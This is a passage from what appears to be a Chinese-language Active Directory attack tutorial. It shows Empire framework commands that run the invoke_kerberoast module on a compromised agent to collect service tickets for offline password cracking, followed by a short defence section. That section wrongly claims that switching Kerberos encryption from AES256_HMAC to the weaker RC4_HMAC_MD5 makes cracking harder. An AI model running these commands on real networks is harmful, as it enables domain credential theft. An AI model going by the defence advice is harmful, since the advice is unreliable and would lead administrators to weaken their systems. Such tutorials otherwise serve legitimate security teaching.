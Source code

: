 #### Empire框架

```plain
Empire: L7HAM3KV) > usemodule credentials/invoke_kerberoast
(Empire: powershell/credentials/invoke_kerberoast) > set Agent L7HAM3KV
(Empire: powershell/credentials/invoke_kerberoast) > execute
```

[![](assets/1699492330-75e947feccd0ab30be616749073624e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163407-94e3e860-7e11-1.png)  
之后同样进行离线破解即可~

## 防御措施

通过将默认的AES256\_HMAC加密方式改为RC4\_HMAC\_MD5，增加破解难度或者保证服务密码本身为强密码，关键是提高密码的强度
